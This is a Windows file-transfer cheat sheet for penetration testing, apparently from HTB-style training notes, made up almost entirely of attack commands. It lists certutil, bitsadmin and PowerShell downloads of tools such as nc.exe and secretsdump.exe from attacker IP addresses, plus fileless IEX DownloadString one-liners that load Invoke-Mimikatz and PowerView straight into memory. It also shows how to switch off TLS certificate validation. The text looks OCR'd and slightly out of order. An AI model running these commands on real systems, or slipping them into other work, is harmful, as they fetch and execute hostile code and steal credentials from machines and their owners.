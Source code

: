 **Windows**

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

# Fileless Method (run it directly in memory)
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')  
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX # pipeline input.

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous

# curl
curl http://10.10.16.33/secretsdump.exe -o secretsdump.exe
```
 > when the Internet Explorer first-launch configuration has not been completed, which prevents the download This can be bypassed using the parameter `-UseBasicParsing`.
 
```bash
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
 
>Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

Windows File Transfer Methods

```bash
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

